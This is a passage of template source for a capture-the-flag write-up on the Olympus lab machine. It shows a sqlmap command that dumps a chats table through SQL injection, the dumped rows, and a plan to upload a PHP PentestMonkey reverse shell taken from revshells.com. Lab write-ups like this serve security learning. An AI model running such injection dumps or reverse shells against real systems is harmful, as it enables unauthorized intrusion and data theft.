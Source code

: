 {{text("I tried looking for the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>prometheus_password.txt</code> file, I found a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>http://chat.olympus.thm/uploads</code> page but couldn't find that file.")}}

{{text("Once again I returned to using <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>sqlmap</code> and this time I checked the <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>chats</code> table.")}}

{{console("sqlmap -r request.txt -D olympus -T chats --dump", "        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.8.7#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 00:25:30 /2024-12-10/

[00:25:30] [INFO] parsing HTTP request from 'request.txt'
...
Database: olympus
Table: chats
[3 entries]
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+------------+--------------------------------------+
| dt         | msg                                                                                                                                                             | uname      | file                                 |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+------------+--------------------------------------+
| 2022-04-05 | Attached : prometheus_password.txt                                                                                                                              | prometheus | 47c3210d51761686f3af40a875eeaaea.txt |
| 2022-04-05 | This looks great! I tested an upload and found the upload folder, but it seems the filename got changed somehow because I can't download it back...             | prometheus | <blank>                              |
| 2022-04-06 | I know this is pretty cool. The IT guy used a random file name function to make it harder for attackers to access the uploaded files. He's still working on it. | zeus       | <blank>                              |
+------------+-----------------------------------------------------------------------------------------------------------------------------------------------------------------+------------+--------------------------------------+")}}

{{text("The file was saved under the name <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>47c3210d51761686f3af40a875eeaaea.txt</code>.")}}

{{text("Sadly, it wasn't enough.")}}

{{image("../../static/writeups/olympus/images/000005.jpg")}}

{{text("I proceeded to <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>revshells.com</code> and copied a <code class='bg-gray-300 rounded-md px-1 dark:bg-neutral-700'>PHP PentestMonkey</code> reverse shell into a file.")}}
